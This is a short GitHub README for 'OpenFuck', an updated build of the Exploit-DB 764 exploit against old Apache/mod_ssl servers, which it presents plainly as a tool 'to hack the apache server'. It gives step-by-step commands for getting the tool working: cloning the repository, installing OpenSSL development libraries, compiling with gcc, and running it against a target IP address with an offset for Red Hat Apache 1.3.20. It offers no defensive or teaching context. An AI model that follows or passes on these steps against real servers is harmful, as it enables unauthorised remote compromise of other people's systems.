 # Open6uck
Original Name is OpenFuck, but i changed it for some reasons.

This is an exploit to hack the apache server

## Usage
This Exploit (https://www.exploit-db.com/exploits/764/) is outdated.

Below you can take updated exploit file
1. Download the below file
~~~
git clone https://github.com/dillu345/OpenFuck.git
~~~
2. Install libssl-dev & libssl1.0-dev
~~~
apt install libssl-dev
apt install libssl1.0-dev
~~~

3. Now Compile
~~~
gcc -o OpenFuck 764.c -lcrypto
~~~
4. Run the exploit
~~~
./OpenFuck
~~~
5. See which service you want to exploit. For example if you need to exploit Red Hat Linux, using apache version 1.3.20.
~~~
./OpenFuck 0*6b [IP Address] -c 50
~~~
